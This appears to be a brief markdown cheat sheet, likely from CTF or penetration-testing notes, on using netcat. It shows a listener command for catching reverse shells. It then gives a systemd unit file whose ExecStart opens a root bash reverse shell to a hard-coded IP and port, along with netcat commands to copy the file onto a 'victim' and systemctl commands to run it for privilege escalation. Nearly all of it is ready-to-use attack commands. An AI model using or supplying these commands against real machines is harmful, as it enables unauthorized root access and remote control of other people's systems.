

# Netcat

## Example 1

Start netcat listening on e.g. port 1234

```sh
nc -lvnp 1234
```

Once payload is triggered netcat will open a reverse shell:



## Example 2

Create 0xfab1.service in /temp/

```txt
[Unit]
Description=root

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.9.193.173/9999 0>&1'

[Install]
WantedBy=multi-user.target
```

- move file to /temp/ of www-data from attacker box:
 -on victim: ```nc -vl 44444 > fab.service```
- on attacker:  ```nc -n TargetIP 44444 < fab.service```
- on attacker now start a new netcat session on 9999: ```nc -lvnp 9999```

Now use systemctl on victim machine and we should be root from the attacker box:

```sh
/bin/systemctl enable /tmp/fab.service
/bin/systemctl start fab
```
